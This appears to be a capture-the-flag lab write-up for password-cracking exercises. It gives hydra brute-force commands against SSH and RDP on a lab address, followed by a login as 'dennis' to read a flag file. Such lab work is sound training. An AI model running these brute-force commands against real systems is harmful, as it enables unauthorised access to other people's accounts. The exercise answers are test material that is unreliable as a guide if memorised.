 <figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Find the user for the **SSH** service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

`hydra -L username.list -P password.list ssh://10.129.238.248`

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

`ssh dennis@10.129.238.248`

* password & login
* `cd Desktop`
* `type flag.txt`

Find the user for the **RDP** service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

`hydra -L username.list -P password.list rdp://10.129.238.248`
